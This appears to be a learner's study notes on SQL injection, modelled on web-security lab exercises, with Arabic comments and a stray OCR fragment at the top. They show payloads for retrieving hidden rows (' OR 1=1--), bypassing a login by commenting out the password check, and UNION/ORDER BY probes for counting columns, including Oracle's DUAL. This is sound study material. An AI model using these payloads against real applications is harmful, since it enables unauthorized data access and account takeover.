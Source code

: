 time delay

### OUT-OF-BAND

### **Second-order**

## **WHERE clause allowing retrieval of hidden data**

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Modify the category parameter, giving it the value '+OR+1=1--

exploit ::
 WHERE category = '' OR 1=1--' AND released = 1
 تذكر ان -- تعني الجي بعدي ملغي تعليق 
```

## **allowing login bypass**

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

WHERE username = 'administrator'--' AND password = 'bluecheese'
كدا دخل عشان هو طلب اليوزر و الباقي تعليق 

```

## **Determining the number of columns required**

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.

## **Determining the number of columns required**

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.

## **Database-specific syntax**

On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like:

```
' UNION SELECT NULL FROM DUAL--
```
